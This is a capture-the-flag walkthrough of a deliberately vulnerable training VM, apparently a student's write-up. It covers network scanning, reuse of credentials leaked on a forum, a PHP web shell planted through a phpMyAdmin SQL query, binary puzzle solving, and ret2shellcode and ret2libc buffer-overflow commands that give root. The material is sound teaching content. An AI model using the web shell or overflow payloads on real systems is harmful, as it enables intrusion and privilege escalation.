

# Introduction
When we first boot up the VM we're greeted with a login screen. Obviously we have not been provided with any usernames / passwords so it's up to us to find a way in.

When looking at the startup logs of the VM, we can see that apache2 has been started, we therefore know that there is a web server running on this VM.

# Finding the IP
Let's find its IP ! "Since I'm using VirtualBox with a Host-Only network adapter that is configured automatically, all I have is a range of IPs:
```
Server Address: 192.168.94.2
Server Mask: 255.255.255.0
Lower Address Bound: 192.168.94.3
Upper Address Bound: 192.168.94.254
```
VirtualBox will usually allocate the next available IP (starting from the Lower Address Bound) to a VM, but since I'm lazy let's just scan the range with nmap:
```
➜  Boot2root git:(main) ✗ nmap 192.168.94.3-254
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-30 17:07 CET
Nmap scan report for 192.168.94.4
[...]

Nmap scan report for 192.168.94.8
Host is up (0.0013s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 252 IP addresses (2 hosts up) scanned in 5.19 seconds
```
Cool, we have the IP of our Boot2root VM (the `192.168.94.4` host was another one of my VM, we can ignore it).

# List of services
We also notice that there are multiple services running:
- ftp
- ssh
- http / https
- imap / imaps

*Since we don't have any credentials, let's ignore ftp, ssh and imap for now.*

Let's try to access `http://192.168.94.8` in our browser !


Nice, a basic website. After a bit of digging there is nothing suspicious within the HTML, network requests or cookies.

Let's try to find hidden directories with `dirb``:
```
➜  ~ dirb https://192.168.94.8 -r

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Oct 30 19:05:15 2023
URL_BASE: https://192.168.94.8/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.94.8/ ----
+ https://192.168.94.8/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.94.8/forum/
==> DIRECTORY: https://192.168.94.8/phpmyadmin/
+ https://192.168.94.8/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.94.8/webmail/

-----------------
END_TIME: Mon Oct 30 19:05:20 2023
DOWNLOADED: 4612 - FOUND: 2
```
*Since webmail and phpmyadmin require credentials we don't have, let's check out the forum ! We'll have to access it with `https` to avoid getting a `403`*

# Forum


Yet again there is a way to login, but we don't have any credentials. There are multiple forum posts, let's check them out.

In the `Probleme login ?` post, we can see that the `lmezard` user has posted his sshd logs. Here is the interesting part:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```
Seems like he put his password as the username by accident. Let's try to login on the forum with `lmezard` as the username and `!q\]Ej?*5K5cy*AJ` as the password.

*I tried the credentials with all the services we have access to, and it only worked for the forum.*

Since we are on his account, let's try to go to the User's Area:


There is an email address, let's try to login to the webmail with the same credentials. (but with `	laurie@borntosec.net` as the username)


# Webmail
It worked!


There are two emails from `qudevide@mail.borntosec.net`. The `Very interesting !!!!` isn't actually interesting, but the `DB Access` one is.

It contains the following credentials:
```
root/Fg-'kKXBj87E:aJ$
```
Since we're talking about a database, let's try to login to phpmyadmin with these credentials.

# PhpMyAdmin
We're in!


As we are logged in as root, we can see all the databases. Let's check out the `forum_db` and `mysql` in the hopes of finding some credentials.

There are indeed some credentials in both the databases, but they are hashed. So let's try something else.

It seems we can execute php code from a SQL query ([**source**](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/)), let's try to get launch shell commands.

First let's create a new database called exploit (*the name doesn't matter*).
Then let's run a SQL query on the database we just created:


Such as:
```SQL
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

How do we know the path of the `templates_c` directory ? Well if we run a scan with dirbuster we can see that there is a `templates_c` directory in the `forum` directory.
```
➜  ~ dirb https://192.168.94.8 | grep -E 'CODE:200|DIRECTORY'
==> DIRECTORY: https://192.168.94.8/forum/
[...]
==> DIRECTORY: https://192.168.94.8/forum/images/
==> DIRECTORY: https://192.168.94.8/forum/includes/
+ https://192.168.94.8/forum/index (CODE:200|SIZE:4935)
+ https://192.168.94.8/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.94.8/forum/js/
==> DIRECTORY: https://192.168.94.8/forum/lang/
==> DIRECTORY: https://192.168.94.8/forum/modules/
==> DIRECTORY: https://192.168.94.8/forum/templates_c/
==> DIRECTORY: https://192.168.94.8/forum/themes/
==> DIRECTORY: https://192.168.94.8/forum/update/
[...]
```
*I've tried every other option and only the `templates_c` directory worked.*

Now we can access the `backdoor.php` file with `https://192.168.94.8/forum/templates_c/backdoor.php` and execute commands with the `cmd` parameter:
```
https://192.168.94.8/forum/templates_c/backdoor.php?cmd=pwd
/var/www/forum/templates_c

https://192.168.94.8/forum/templates_c/backdoor.php?cmd=ls%20/
bin boot cdrom dev etc home initrd.img lib media mnt opt proc rofs root run sbin selinux srv sys tmp usr var vmlinuz

// Yet again after a lot of digging I found this in the home directory
https://192.168.94.8/forum/templates_c/backdoor.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

https://192.168.94.8/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATME
password

https://192.168.94.8/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Finally we have new credentials! They don't work for ssh, but they do for ftp.

# Ftp
Alright, let's log in to FTP with the new credentials.
```
➜  ~ ftp lmezard@192.168.94.8
Connected to 192.168.94.8.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Perfect, let's see what's in there.
```
ftp> ls
229 Entering Extended Passive Mode (|||50074|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```

Let's use `get` to download the files
```
ftp> get README
[...]
226 Transfer complete.
96 bytes received in 00:00 (76.15 KiB/s)
ftp> get fun
[...]
226 Transfer complete.
808960 bytes received in 00:00 (36.50 MiB/s)
```

Let's see the content of the files; first `README`:
```
➜  ~ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Pretty straightforward. Let's see what's in `fun`:
```
➜  ~ cat fun
[...]
// Not showing anything cause it's too long but it's clearly not readable
```

Let's see what type of file it is then:
```
➜  ~ file fun
fun: POSIX tar archive (GNU)
```

It's a tar archive; let's extract it:
```
➜  ~ tar -xvf fun
ft_fun/
ft_fun/C4D03.pcap
ft_fun/GKGEP.pcap
ft_fun/A5GPY.pcap
ft_fun/K8SEB.pcap
ft_fun/PFG98.pcap
[...]
```

Great, we have a bunch of pcap files. Let's see what's in them using tcpdump:
```
➜  ft_fun sudo tcpdump 6ERKN.pcap
tcpdump: can't parse filter expression: syntax error
```

Looks like they're not pcap files.

After looking at their content, we realise that they're just regular text files with what appears to be C code, along with a number that I can only assume is the line number. For example:
```
➜  ft_fun cat 44QJL.pcap 
        printf("Hahahaha Got you!!!\n"); // C code

//file560% // Line number
```

I created a [lua script](/scripts/pcap_to_c.lua) to extract the C code from the files and put them in a single file. I also removed the `//file` part for extra clarity. Here is the result:
```
➜  ft_fun lua pcap_to_c.lua
Created file:   main.c
➜  ft_fun gcc main.c 
➜  ft_fun ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

Simple as that. Now let's SHA-256 the password and carry on as instructed in the `README`.
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# SSH with user laurie

Alright, let's try to SSH with the new credentials.
```
➜  ~ ssh laurie@192.168.94.8
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.94.8's password:
laurie@BornToSecHackMe:~$
```

It works as expected. Let's see what's in the home directory.
```
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
laurie@BornToSecHackMe:~$
```

Alright so we have to defuse the bomb by running the `bomb` executable. Let's see what it does:
```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
test

BOOM!!!
The bomb has blown up.
```

It seems like unless I give it the right input, it will blow up. After checking it out with `gdb`, I found the file to be way too long, so I'm going to use `Ghidra` instead.

This is a translated version of the `main` function:

*All the following C code is not supposed to be compiled or  be very accurate, it just gives a general idea of what the program does.*
```c
*FILE infile; // Used in read_line

int main(int argc,char **argv)
{
  char *buffer;
  
  if (argc == 1) {
    infile = stdin;
  }
  else {
    if (argc != 2) {
      printf("Usage: %s [<input_file>]\n", argv[0]);
      exit(8);
    }
    infile = fopen(argv[1],"r");
    if (infile == NULL) {
      printf("%s: Error: Couldn\'t open %s\n", argv[0], argv[1]);
      exit(8);
    }
  }
  initialize_bomb();
  printf("Welcome this is my little bomb !!!! You have 6 stages with\n");
  printf("only one life good luck !! Have a nice day!\n");
  buffer = read_line();
  phase_1(buffer);
  phase_defused(); // There actually is a secret phase hidden in here, but I didn't bother with it
  printf("Phase 1 defused. How about the next one?\n");
  buffer = read_line();
  phase_2(buffer);
  phase_defused();
  printf("That\'s number 2.  Keep going!\n");
  buffer = read_line();
  phase_3(buffer);
  phase_defused();
  printf("Halfway there!\n");
  buffer = read_line();
  phase_4(buffer);
  phase_defused();
  printf("So you got that one.  Try this one.\n");
  buffer = read_line();
  phase_5(buffer);
  phase_defused();
  printf("Good work!  On to the next...\n");
  buffer = read_line();
  phase_6(buffer);
  phase_defused();
  return 0;
}
```

So we have to go through 6 phases, and we only have one try for each of them. Let's see what the first phase does:
```c
void phase_1(char *buffer)
{
  int i;
  
  i = strings_not_equal(buffer,"Public speaking is very easy.");
  if (i != 0) {
    explode_bomb();
  }
  return;
}
```

Pretty simple, we just have to use the string `Public speaking is very easy.` as input. On to phase 2:
```c
void phase_2(char *buffer)
{
  int i;
  int tmp[7];
  
  read_six_numbers(buffer, tmp + 1); // Put the first 6 numbers of the input in tmp + 1
  if (tmp[1] != 1) {
    explode_bomb();
  }
  i = 1;
  do {
    if (tmp[i + 1] != (i + 1) * tmp[i]) {
      explode_bomb();
    }
    i++;
  } while (i < 6);
  return;
}
```

The first number we provide has to be equal to 1, futhermore our input needs to have exactly 6 numbers. The next number has to be equal to the index of the loop + 1 multiplied by the previous number. For example:

```
current_number = 1
index = 1
next_number = (index + 1) * current_number = 2

current_number = 2
index = 2
next_number = (index + 1) * current_number = 6

[...]

If you've noticed this is the equivalent of applying a factorial on the index we are at.
```

Using this logic, the final answer is `1 2 6 24 120 720`. On to phase 3:
```c
void phase_3(char *buffer)
{
  int i;
  char target;
  uint first_value;
  char second_value;
  int third_value;
  
  i = sscanf(buffer,"%d %c %d",&first_value,&second_value,&third_value);
  if (i < 3) {
    explode_bomb();
  }
  switch(first_value) {
  case 0:
    target = 'q';
    if (third_value != 777) {
      explode_bomb();
    }
    break;
  case 1:
    target = 'b';
    if (third_value != 214) {
      explode_bomb();
    }
    break;
  case 2:
    target = 'b';
    if (third_value != 755) {
      explode_bomb();
    }
    break;
  case 3:
    target = 'k';
    if (third_value != 251) {
      explode_bomb();
    }
    break;
  case 4:
    target = 'o';
    if (third_value != 160) {
      explode_bomb();
    }
    break;
  case 5:
    target = 't';
    if (third_value != 458) {
      explode_bomb();
    }
    break;
  case 6:
    target = 'v';
    if (third_value != 780) {
      explode_bomb();
    }
    break;
  case 7:
    target = 'b';
    if (third_value != 524) {
      explode_bomb();
    }
    break;
  default:
    target = 'x';
    explode_bomb();
  }
  if (target != second_value) {
    explode_bomb();
  }
  return;
}
```

Again, it's pretty straightforward. Here are all the possible answers:
```
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524
```

Now let's move on to phase 4:
```c
int func4(int first_value)
{
  int i;
  int y;
  
  if (first_value < 2) {
    y = 1;
  }
  else {
    i = func4(first_value + -1);
    y = func4(first_value + -2);
    y = y + i;
  }
  return y;
}

void phase_4(char *buffer)
{
  int i;
  int first_value;
  
  i = sscanf(buffer,"%d",&first_value);
  if ((i != 1) || (first_value < 1)) {
    explode_bomb();
  }
  i = func4(first_value);
  if (i != 55) {
    explode_bomb();
  }
  return;
}
```

First of all, we only need to provide one number which needs to be greater than 0. Then the `func4` function is a recursive function that returns the `first_value`'th + 1 number of the Fibonacci sequence; so the answer is `9`. On to phase 5:
```c
char array[16] = "isrveawhobpnutfg";

void phase_5(char *buffer)
{
  int i;
  char tmp[6];
  
  i = string_length(buffer);
  if (i != 6) {
    explode_bomb();
  }
  i = 0;
  do {
    tmp[i] = array[buffer[i] & 0b00001111];
    i = i + 1;
  } while (i < 6);
  tmp[6] = 0;
  i = strings_not_equal(tmp,"giants");
  if (i != 0) {
    explode_bomb();
  }
  return;
}
```

We need to provide a string of exactly 6 characters. Then for each character, we take the last 4 bits and use them as an index for the `array` array. To elaborate:
```
'g' at index 15, aka binary 1111
'i' at index 0, aka binary 0000
'a' at index 5, aka binary 0101
'n' at index 11, aka binary 1011
't' at index 13, aka binary 1101
's' at index 1, aka binary 0001

For example let's try with 'a':
array[a & 0b00001111];
array[01100001 & 0b00001111];
array[00000001];
array[1] = 's';

Here's all the possible answers for each character (ignoring capital letters):
g: o
i: p
a: e, u
n: k
t: m
s: a, q

Therefore our possible answers are:
opekma, opukma, opekmq, opukmq
```

Finally, let's move on to phase 6:

*Even though I'm using ghidra, this phase is still very hard to understand. Therefore I'll need to make some assumptions, aswell as slighty modify the structure / logic.*
```c
// Assuming node is defined as
typedef struct Node {
  int value;
  struct Node *next;
} Node;

/*
As we can see in the main function, we assign node1 to our current node.
node1 is actually a global variable, it is also the first node of a linked list which is defined as follows:
node1->next = node2
node2->next = node3
node3->next = node4
node4->next = node5
node5->next = node6
node6->next = NULL

Here are the values of each node:
(gdb) p node1
$1 = 253
(gdb) p node2
$2 = 725
(gdb) p node3
$3 = 301
(gdb) p node4
$4 = 997
(gdb) p node5
$5 = 212
(gdb) p node6
$6 = 432
*/

void phase_6(char *buffer) {
  Node *current_node;
  Node *selected_nodes[6];
  int input_numbers[6];
  
  current_node = node1;
  read_six_numbers(buffer, input_numbers);
  
  // Input numbers must be between 1 and 6, and there can't be duplicates. Therefore we're looking for positions.
  for (int i = 0; i < 6; i++) {
    if (input_numbers[i] < 1 || input_numbers[i] > 6) {
      explode_bomb();
    }
    for (int j = i + 1; j < 6; j++) {
      if (input_numbers[i] == input_numbers[j]) {
        explode_bomb();
      }
    }
  }
  
  // Select nodes based on input_numbers aka their positions and put them in selected_nodes
  for (int i = 0; i < 6; i++) {
    current_node = node1;
    for (int j = 1; j < input_numbers[i]; j++) {
      current_node = current_node->next;
    }
    selected_nodes[i] = current_node;
  }
  
  // Properly link the selected nodes
  for (int i = 0; i < 5; i++) {
    selected_nodes[i]->next = selected_nodes[i + 1];
  }
  selected_nodes[5]->next = NULL;
  
  // Check if the list is sorted in descending order
  current_node = selected_nodes[0];
  for (int i = 0; i < 5; i++) {
    if (current_node->value < current_node->next->value) {
      explode_bomb();
    }
    current_node = current_node->next;
  }
}
```

So we need to provide 6 numbers between 1 and 6, without duplicates. Then we need to select the nodes based on their position in the linked list so that their values are in descending order. For example:
```
Input: 1 2 3 4 5 6
Selected nodes: node1 node2 node3 node4 node5 node6
Linked list: node1->node2->node3->node4->node5->node6->NULL
Sorted: 253 725 301 997 212 432
INCORRECT

Input: 4 2 6 3 1 5
Selected nodes: node4 node2 node6 node3 node1 node5
Linked list: node4->node2->node6->node3->node1->node5->NULL
Sorted: 997 725 432 301 253 212
CORRECT
```

Alright, we've completed all the phases! Feel free to put them in a single file and run it to see the result:
```
laurie@BornToSecHackMe:~$ echo "Public speaking is very easy.
1 2 6 24 120 720
0 q 777
9
opekmq
4 2 6 3 1 5" > plop
laurie@BornToSecHackMe:~$ ./bomb plop
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
```

Perfect, now we can assemble the password for the `thor` user. According to the `README`, we just need to put all the answers together without spaces.


Using the hints from the `README` to eliminate some of the possibilities (since we have multiple answers for some stages) and brute forcing the rest, we can find the password:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

# User thor

Alright, let's login to the `thor` user with the new password.
```
laurie@BornToSecHackMe:~$ su thor
Password:
thor@BornToSecHackMe:~$
```

Let's see what's in the home directory.
```
thor@BornToSecHackMe:~$ ls
README  turtle
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

Let's finish this challenge then! There is a `turtle` executable in the home directory, let's see what it contains.
```
thor@BornToSecHackMe:~$ cat turtle
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
[...]
```

Seems like directions, there happens to be a `turtle` python library, which has similar functions; however it's not in the same language. Let's translate the `turtle` file into python code.

I've created a [python script](/scripts/turtle_solver.py) to do just that. It produces the following graphical output:





It is clearly writing `SLASH`. However it doesn't work as a password for the `zaz` user! Futhermore if we look at the end of the `turtle` file, we can see the following:
```
Can you digest the message? :)
```

The word `digest` is a hint, we need to hash the password. After using multiple hashing algorithms, I found that `MD5` works for the password of the `zaz` user.
```
646da671ca01bb5d84dbb5fb2238dc8e
```

# User zaz

Let's login into the `zaz` user with the password we just found.
```
thor@BornToSecHackMe:~$ su zaz
Password:
zaz@BornToSecHackMe:~$
```

Let's see what's in the home directory.
```
zaz@BornToSecHackMe:~$ ls
exploit_me  mail
```

No `README` this time and the `mail` folder doesn't have anything interesting. So our only option is to exploit the `exploit_me` executable, Let's try to run it:
```
zaz@BornToSecHackMe:~$ ./exploit_me
zaz@BornToSecHackMe:~$ ./exploit_me hello
hello
```

Alright let's use `gdb` and analyse the assembly code:
```
Dump of assembler code for function main:
   # Usual setup
   0x080483f4 <+0>:     push   %ebp
   0x080483f5 <+1>:     mov    %esp,%ebp
   0x080483f7 <+3>:     and    $0xfffffff0,%esp

   # Allocating 144 bytes on the stack
   0x080483fa <+6>:     sub    $0x90,%esp

   # Compare 1 with argc
   0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp)
   # If greater/not less or equal then jump to main+25
   # To recap: if (argc <= 1)
   0x08048404 <+16>:    jg     0x804840d <main+25>

   # Moving 1 into eax to do a return 1
   0x08048406 <+18>:    mov    $0x1,%eax
   # Jump to main+66
   0x0804840b <+23>:    jmp    0x8048436 <main+66>

   # Moving *argv[0] into eax
   0x0804840d <+25>:    mov    0xc(%ebp),%eax
   # Go to *argv[1] (*argv[0] + 4 bytes = *argv[1])
   0x08048410 <+28>:    add    $0x4,%eax
   # Dereference the address to get the value (*argv[1] => argv[1])
   0x08048413 <+31>:    mov    (%eax),%eax
   # Moving argv[1] into esp to be used as the second argument of strcpy
   0x08048415 <+33>:    mov    %eax,0x4(%esp)
   # Calculate the address of esp + 16, this will be our buffer for strcpy, since we allocated 144 bytes for the stack our buffer will therefore be 128 bytes such as char buffer[128], and putting it into eax
   0x08048419 <+37>:    lea    0x10(%esp),%eax
   # Moving buffer into esp to be used as the first argument of strcpy
   0x0804841d <+41>:    mov    %eax,(%esp)
   # To recap: strcpy(buffer, argv[1])
   0x08048420 <+44>:    call   0x8048300 <strcpy@plt>
   # Calculate the address of buffer
   0x08048425 <+49>:    lea    0x10(%esp),%eax
   # Moving buffer into esp to be used as the argument of puts
   0x08048429 <+53>:    mov    %eax,(%esp)
   # To recap: puts(buffer)
   0x0804842c <+56>:    call   0x8048310 <puts@plt>

   # Moving 0 into eax to do a return 0
   0x08048431 <+61>:    mov    $0x0,%eax
   # Leaving the function
   0x08048436 <+66>:    leave
   0x08048437 <+67>:    ret
End of assembler dump.
```

Here is a C equivalent of the assembly code:

*The following C code is an excact translation of the assembly code, please compile it with `-fno-stack-protector` using `gcc` to get the same assembly result.*

```c
int main(int argc, char **argv)
{
    char buffer[128];

    if (argc <= 1)
        return 1;

    strcpy(buffer, argv[1]);
    puts(buffer);
    return 0;
}
```

Pretty basic, let's first check the security of the executable.
```
➜  ~ checksec --file=exploit_me
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    [...]
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH [...]
```

With this knowledge in mind and the fact that the original `C` file was compiled with the `-fno-stack-protector` flag, We can exploit the executable with a simple buffer overflow. In my case I'll do it with a ret2libc and a ret2shellcode.

## Ret2shellcode

To make a ret2shellcode, we will use the following logic:
```
shellcode + padding + address of shellcode
```

First of all, we need a shellcode. Here's ours:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

// I will not go into details about the shellcode, there are plenty of resources online to learn about it
```

Then we need the size of the padding. We know that the stack was allocated 144 bytes, here's the stack layout:
```
ebp+16-144 ->  buffer
ebp+8-12   ->  argv
ebp+4-8    ->  argc
ebp+0-4    ->  return address
```

Since we want to overwrite the return address, we need to write 140 bytes of padding. We need to reduce the size of the shellcode from the padding size, so 140 - 23 = 117 bytes of padding.

Finally we need to find the address of the shellcode which we can do with `gdb`. That gives us the address `0xbffff8a8`.

Here's the final command:
```
./exploit_me `python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "."*(140 - 23) + "\xbf\xff\xf8\xa8"[::-1])'`
```

## Ret2libc
```
./exploit_me `python -c 'print("."*140 + "\xb7\xe6\xb0\x60"[::-1] + "BEAN" + "\xb7\xf8\xcc\x58"[::-1])'`
```

```
padding + address of system + any address + address of "/bin/sh"

// Although I wrote any address, if you want the program to exit properly, you need to put the address of exit. I didn't bother with it since it works anyway.
```

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```s

how to find /bin/sh
https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb

(gdb) info proc map
process 4735
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2b000,0xc0000000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

# We are root

After executing on of the two exploits, we are now root!
```
# whoami
root
```